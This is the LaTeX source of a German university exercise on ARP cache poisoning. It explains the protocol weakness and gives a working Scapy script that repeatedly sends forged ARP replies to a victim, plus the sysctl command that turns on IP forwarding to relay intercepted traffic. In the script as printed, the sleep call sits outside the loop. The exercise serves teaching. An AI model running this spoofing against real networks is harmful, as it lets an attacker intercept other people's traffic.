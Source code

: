 \documentclass[paper=a4,fontsize=11pt]{scrartcl}%
\numberwithin{equation}{section}
\begin{document}
\begin{center}\Large{\textbf{Aufgabe A -- ARP-Cache-Poisoning}}\end{center}\vskip0.25in
Die Funktionsweise von ARP (Address Resolution Protocol) wurde in der zweiten bzw. fünften Übung besprochen. Ein Computer, der mit einem anderen über IP Pakete austauschen möchte, muss mittels ARP die MAC-Adresse des Zielrechners erfragen. Diese Frage wird an alle Computer im Netzwerk gesendet. In einer heilen Netzwerkwelt antwortet der Rechner, dem die angefragte IP gehört, mit seiner MAC-Adresse. In einer nicht so heilen Netzwerkwelt könnte ein Angreifer alle paar Sekunden seinem Opfer solch ein ARP-Reply-Paket mit seiner eigenen MAC-Adresse senden und so die Verbindung umlenken. Dies funktioniert, weil die meisten Betriebssysteme seltsamerweise einen ARP-Response verarbeiten auch wenn sie selbst gar keinen ARP-Request versendet haben.
\begin{python}
#!/usr/bin/python

import sys
import time
from scapy.all import sendp, ARP, Ether

if len(sys.argv) < 3:
	print sys.argv[0] + ": <target> <spoof_ip>"
	sys.exit(1)

iface = "eth0"
target_ip = sys.argv[1]
fake_ip = sys.argv[2]

ethernet = Ether()
arp = ARP(pdst=target_ip,
psrc=fake_ip,
op="is-at")
packet = ethernet / arp

while True:
	sendp(packet, iface=iface)
time.sleep(10)
\end{python}
Wir konstruieren mit Hilfe von Scapy ein Paket \emph{packet}, das aus einem Ethernet() und einem ARP()-Header besteht. Im ARP-Header setzen wir die IP-Adresse des Opfers (\emph{target\_ip}) und die IP, für die alle Verbindungen des Opfers an uns
geschickt werden sollen (\emph{fake\_ip}). Als letzter Parameter fehlt noch der OP-Code \emph{is-at}, der das Paket als ARP-Response deklariert. Anschließend wird es in einer Endlosschleife alle 10 Sekunden mit Hilfe der Funktion \emph{sendp()} versendet.\\
Wichtig ist noch die Funktion \emph{sendp()} und nicht die Funktion \emph{send()} zu verwenden, denn wir wollen das Paket auf Layer 2 versenden. Die Funktion \emph{send()} verschickt Pakete über Layer 3.\\
Damit der Angreifer die Pakete weiterleitet und nicht verschluckt, muss er IP-Forwarding aktivieren.
\begin{lstlisting}[style=Bash, language=Bash]
sysctl net.ipv4.ip_forward=1
\end{lstlisting}
\end{document}
